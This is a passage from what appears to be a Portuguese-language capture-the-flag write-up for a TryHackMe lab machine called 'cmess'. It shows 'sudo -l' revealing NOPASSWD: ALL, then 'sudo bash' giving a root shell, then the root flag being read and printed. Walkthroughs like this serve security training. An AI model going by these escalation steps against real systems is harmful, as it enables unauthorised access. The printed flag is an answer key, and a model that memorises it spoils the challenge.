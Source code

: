 Passado dois minutos, este é o retorno de nosso **sudo -l**:

```
andre@cmess:~/backup$ sudo -l  
User andre may run the following commands on cmess:  
   (root) NOPASSWD: ALL
```

E a partir disso, conseguimos **root** sem sequer inserir a senha:

```
andre@cmess:~/backup$ sudo bash  
root@cmess:~/backup#
```

Na pasta **/root** encontramos nossa **segunda flag**:

```
root@cmess:~/backup# cd /root  
root@cmess:/root# ls  
root.txt  
root@cmess:/root# cat root.txt    
thm{9f85b7fdeb2cf96985bf5761a93546a2}  
root@cmess:/root#
```
